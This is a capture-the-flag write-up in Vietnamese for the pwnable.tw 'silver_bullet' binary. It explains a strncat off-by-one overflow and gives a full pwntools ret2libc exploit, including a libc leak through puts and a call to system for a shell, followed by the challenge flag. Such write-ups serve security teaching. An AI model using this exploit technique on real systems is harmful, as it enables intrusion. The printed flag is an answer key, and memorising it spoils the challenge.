

**1. Tìm lỗi**

Dùng lệnh `file` kiểm tra:

```
silver_bullet: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8c95d92edf8bf47b6c9c450e882b7142bf656a92, not stripped
```

---> Mở bằng IDA ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  int v5; // [esp+0h] [ebp-3Ch] BYREF
  const char *v6; // [esp+4h] [ebp-38h]
  char s[48]; // [esp+8h] [ebp-34h] BYREF
  int v8; // [esp+38h] [ebp-4h]

  init_proc();
  v8 = 0;
  memset(s, 0, sizeof(s));
  v5 = 0x7FFFFFFF;
  v6 = "Gin";
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        while ( 1 )
        {
          menu(v5, v6);
          v3 = read_int();
          if ( v3 != 2 )
            break;
          power_up(s);
        }
        if ( v3 > 2 )
          break;
        if ( v3 != 1 )
          goto LABEL_15;
        create_bullet(s);
      }
      if ( v3 == 3 )
        break;
      if ( v3 == 4 )
      {
        puts("Don't give up !");
        exit(0);
      }
LABEL_15:
      puts("Invalid choice");
    }
    if ( beat(s, &v5) )
      return 0;
    puts("Give me more power !!");
  }
}
```

- int v3, v5, và v8 là các biến kiểu số nguyên.
- const char *v6 là một biến con trỏ đến một chuỗi ký tự hằng số.
- char s[48] là một mảng ký tự có độ dài 48.
- Hiển thị menu cho người dùng bằng cách gọi hàm menu(v5, v6).
- Đọc một số nguyên từ người dùng bằng cách sử dụng hàm read_int().
- Nếu số nguyên đó là 1, chương trình sẽ gọi hàm create_bullet(s).
- Nếu số nguyên đó là 2, chương trình sẽ gọi hàm power_up(s).
- Nếu số nguyên đó là 3, chương trình sẽ thoát khỏi vòng lặp chính.
- Nếu số nguyên đó là 4, chương trình sẽ in ra thông báo "Don't give up !" và kết thúc chương trình.
- Nếu số nguyên không phải 1, 2, 3, hoặc 4, chương trình sẽ in ra thông báo "Invalid choice".
- Sau khi thoát khỏi vòng lặp chính, chương trình sẽ kiểm tra xem biến s có đủ điểm số để đánh bại một kẻ địch không bằng cách sử dụng hàm beat(s, &v5). Nếu điểm số đủ, chương trình sẽ kết thúc. Nếu điểm số không đủ, chương trình sẽ in ra thông báo "Give me more power !!" và quay lại vòng lặp chính.

Hàm `power_up`:

```
int __cdecl power_up(char *dest)
{
  char s[48]; // [esp+0h] [ebp-34h] BYREF
  size_t v3; // [esp+30h] [ebp-4h]

  v3 = 0;
  memset(s, 0, sizeof(s));
  if ( !*dest )
    return puts("You need create the bullet first !");
  if ( *((_DWORD *)dest + 12) > 0x2Fu )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(s, 48 - *((_DWORD *)dest + 12));
  strncat(dest, s, 48 - *((_DWORD *)dest + 12));
  v3 = strlen(s) + *((_DWORD *)dest + 12);
  printf("Your new power is : %u\n", v3);
  *((_DWORD *)dest + 12) = v3;
  return puts("Enjoy it !");
}
```

- Cụ thể, đầu tiên hàm khởi tạo một mảng ký tự `s` có kích thước là 48 và khởi tạo giá trị 0 cho mảng này. Sau đó, hàm kiểm tra xem giá trị đầu tiên của mảng `dest` có bằng 0 hay không. Nếu có, hàm sẽ in ra một thông báo yêu cầu người dùng tạo viên đạn trước. Nếu không, hàm tiếp tục kiểm tra giá trị của phần tử thứ 12 của `dest`. Nếu giá trị này lớn hơn 0x2F (47), hàm sẽ in ra một thông báo yêu cầu người dùng không thể nâng cấp nữa.
- Nếu cả hai kiểm tra trên đều không thỏa mãn, hàm sẽ yêu cầu người dùng nhập mô tả bổ sung của viên đạn và lưu trữ vào mảng `s`. Hàm sử dụng hàm `strncat` để nối chuỗi `s` vào cuối của `dest` với giới hạn tối đa là 48 - giá trị của phần tử thứ 12 của `dest`. Sau đó, hàm tính độ dài của `s` và cộng với giá trị của phần tử thứ 12 của dest để lưu trữ vào biến v3. Cuối cùng, hàm in ra thông báo về sức mạnh mới của viên đạn và cập nhật giá trị của phần tử thứ 12 của `dest` thành `v3`. Hàm trả về thông báo "Enjoy it !". 
- Ở đây hàm `strncat` có lỗi vì hàm này nối chuỗi xong ghi thêm ký tự `null` vào cuối chuỗi nên có thể bị overwrite

Hàm `create_bullet`:

```
int __cdecl create_bullet(char *s)
{
  size_t v2; // [esp+0h] [ebp-4h]

  if ( *s )
    return puts("You have been created the Bullet !");
  printf("Give me your description of bullet :");
  read_input(s, 0x30u);
  v2 = strlen(s);
  printf("Your power is : %u\n", v2);
  *((_DWORD *)s + 12) = v2;
  return puts("Good luck !!");
}
```

- Đầu tiên, hàm kiểm tra xem chuỗi `s` đã được khởi tạo hay chưa bằng cách kiểm tra ký tự đầu tiên của chuỗi có bằng ký tự `null` không. Nếu đã được khởi tạo thì hàm in ra thông báo và kết thúc hàm. Ngược lại, nếu chưa được khởi tạo, hàm sẽ yêu cầu người dùng nhập mô tả của đối tượng Bullet bằng câu lệnh `printf` và `read_input`, trong đó tham số thứ hai của hàm `read_input` là 0x30u, tương đương với giá trị 48. Sau đó, hàm tính toán độ dài của chuỗi `s` bằng hàm `strlen`, lưu giá trị này vào phần tử thứ 12 của mảng `s` có kiểu _DWORD, tương đương với 4 byte.

- Cuối cùng, hàm in ra thông báo về sức mạnh của đối tượng Bullet mới được tạo và trả về giá trị là 1 thông qua hàm `puts`.

Hàm `beat`:

```
int __cdecl beat(int a1, int a2)
{
  if ( *(_BYTE *)a1 )
  {
    puts(">----------- Werewolf -----------<");
    printf(" + NAME : %s\n", *(const char **)(a2 + 4));
    printf(" + HP : %d\n", *(_DWORD *)a2);
    puts(">--------------------------------<");
    puts("Try to beat it .....");
    usleep(0xF4240u);
    *(_DWORD *)a2 -= *(_DWORD *)(a1 + 48);
    if ( *(int *)a2 <= 0 )
    {
      puts("Oh ! You win !!");
      return 1;
    }
    else
    {
      puts("Sorry ... It still alive !!");
      return 0;
    }
  }
  else
  {
    puts("You need create the bullet first !");
    return 0;
  }
}
```

- Hàm beat nhận vào hai tham số là a1 và a2. Tham số a1 là một số nguyên đại diện cho mức độ sức mạnh của đạn, và a2 là một con trỏ tới một giá trị số nguyên đại diện cho HP của con sói.
- Nếu đạn chưa được tạo, hàm sẽ in ra thông báo "You need create the bullet first !" và trả về giá trị 0. Ngược lại, hàm sẽ in ra thông tin về con sói, bao gồm tên và HP, và thông báo cho người chơi cố gắng đánh bại nó. Hàm còn sử dụng hàm usleep để tạm dừng chương trình trong 1 giây (1 triệu micro giây).
- Sau đó, hàm sẽ giảm HP của con sói bằng mức độ sức mạnh của đạn (lấy từ a1), và kiểm tra xem HP của con sói có nhỏ hơn hoặc bằng 0 không. Nếu nhỏ hơn hoặc bằng 0, hàm sẽ in ra thông báo "Oh ! You win !!" và trả về giá trị 1. Ngược lại, hàm sẽ in ra thông báo "Sorry ... It still alive !!" và trả về giá trị 0.

**2. Ý tưởng**

- Dùng lệnh `checksec` kiểm tra:

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

`NX` bật nên sẽ leak libc rồi ghi địa chỉ hàm `system` của libc sau ret.

**3. Khai thác**

Viết một số hàm để tiện sử dụng:

```
def create_bullet(s):
  r.recvuntil(b'choice: ', b'1')
  r.sendafter(b'choice: ', s)

def power_up(s):
  r.recvuntil(b'choice: ', b'2')
  r.sendafter(b'bullet :', s)

def beat():
  r.recvuntil(b'choice: ', b'3')
```

- Để leak libc thì cần ghi đè đến địa chỉ chứa biến sức mạnh của bullet rồi gán giá trị mạnh hơn 0x7FFFFFFF. Để làm được việc này thì dùng hàm `create_bullet` và hàm `power_up` để ghi đè đến `ret`

```
create_bullet(b'a'*0x2f)
power_up(b'a')
payload = b'a'*7 + p32(exe.plt['puts']) + p32(exe.sym['main']) + p32(exe.got['puts'])
power_up(payload)
beat()
beat()
r.recvuntil(b'You win !!\n')
puts_leak = u32(r.recv(4))
log.info("puts leak: " + hex(puts_leak))
libc.address = puts_leak - 0x73260
log.info("libc base: " + hex(libc.address))
```

Tiếp theo chèn chèn shell là xong.

```
pop_ebx = 0x08048475
create_bullet(b'a'*0x2f)
power_up(b'a')
payload = b'a'*7 + p32(libc.sym['system']) + p32(pop_ebx)
payload += p32(libc.address + 0x158e8b)
power_up(payload)
beat()
beat()
```

Ta có script như sau:

```
from pwn import *

exe = ELF('silver_bullet', checksec=False)
#r = process(exe.path)
r = remote('chall.pwnable.tw', 10103)
libc = ELF('libc_32.so.6', checksec=False)

def create_bullet(s):
  r.sendafter(b'choice :', b'1')
  r.sendafter(b'bullet :', s)

def power_up(s):
  r.sendafter(b'choice :', b'2')
  r.sendafter(b'bullet :', s)

def beat():
  r.sendafter(b'choice :', b'3')

#input()
create_bullet(b'a'*0x2f)
power_up(b'a')
payload = b'a'*7 + p32(exe.plt['puts']) + p32(exe.sym['main']) + p32(exe.got['puts'])
power_up(payload)
beat()
beat()
r.recvuntil(b'You win !!\n')
puts_leak = u32(r.recv(4))
log.info("puts leak: " + hex(puts_leak))
libc.address = puts_leak - libc.sym['puts']
log.info("libc base: " + hex(libc.address))

pop_ebx = 0x08048475
create_bullet(b'a'*0x2f)
power_up(b'a')
payload = b'a'*7 + p32(libc.sym['system']) + p32(pop_ebx)
payload += p32(libc.address + 0x158e8b)
power_up(payload)
beat()
beat()
r.interactive()
```

**4. Lấy flag**



`FLAG{uS1ng_S1lv3r_bu1l3t_7o_Pwn_th3_w0rld}`